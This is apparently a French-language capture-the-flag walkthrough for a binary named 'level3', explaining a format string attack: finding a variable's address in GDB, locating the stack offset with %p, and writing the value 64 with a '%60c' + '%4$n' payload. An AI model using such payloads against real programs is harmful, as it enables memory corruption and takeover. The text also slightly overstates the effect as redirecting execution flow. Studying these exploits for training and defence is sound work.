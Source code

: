 # Exploit: Attaque de chaîne de format

**Commande**:  
```bash
python -c 'print "\x8c\x98\x04\x08" + "%60c" + "%4$n"' > /tmp/exploit4; cat /tmp/exploit4 - | ./level3`  
```

**Explication**:  
Cet exploit exploite une vulnérabilité de chaîne de format, où le spécificateur **%4$n** est utilisé pour écrire le nombre de caractères déjà imprimés par `printf` à une adresse mémoire spécifique. Cette adresse est celle du quatrième argument sur la pile. En contrôlant cette adresse, nous pouvons rediriger le flux d’exécution du programme.

**Étapes détaillées**:  
- **Identification de l’adresse de la variable m**: Utiliser GDB pour localiser l’adresse exacte de la variable m qui doit être modifiée. Lancer GDB avec la commande `gdb ./level3`, puis mettre un point d’arrêt sur la fonction où m est utilisée avec `break v`. Utiliser la commande `p &m` pour obtenir l’adresse de la variable m : `0x804988c`.
- **Détermination de l’adresse dans les arguments de printf**: Pour comprendre où les données entrées apparaissent dans la pile lors de l’exécution de printf, exécuter une commande de test qui affiche les adresses sur la pile :  
  `python -c 'print "AAAA" + " %p" * 20' - | ./level3`  
  Cela affiche les adresses sur la pile et montre où `AAAA` est situé. `AAAA` apparaîtra comme le quatrième argument imprimé (`%p`), cela signifie que l’adresse passée en entrée se trouve au quatrième argument de `printf`, donc `%4$n` peut être utilisé pour écrire à cette adresse.
- **Construction du payload**: Le payload doit écrire un nombre spécifique de caractères (dans cet exemple, 64) à l’adresse de la variable `m`. Les octets `\x8c\x98\x04\x08` représentent l’adresse de `m` (en little endian). Pour atteindre le total de 64 caractères imprimés avant d’écrire cette valeur :  
  `"\x8c\x98\x04\x08" + "%60c"`
- **Exécution finale**: Combinez ces éléments pour former le payload final qui écrit le nombre nécessaire de caractères à l’adresse ciblée, utilisant `%4$n` pour effectuer l’écriture :  
  `\x8c\x98\x04\x08" + "%60c" + "%4$n`  
  En exécutant ce payload, vous modifiez la valeur de `m` à 64 en exploitant la vulnérabilité de la chaîne de format, ce qui permet de prendre le contrôle du flux d’exécution du programme.

**Ressources**:  
- [Les failles Format String](https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20failles%20Format%20String.pdf)  
- [Exploit 101: Format Strings](https://axcheron.github.io/exploit-101-format-strings/)  
- [Format String Attack (OWASP)](https://owasp.org/www-community/attacks/Format_string_attack)
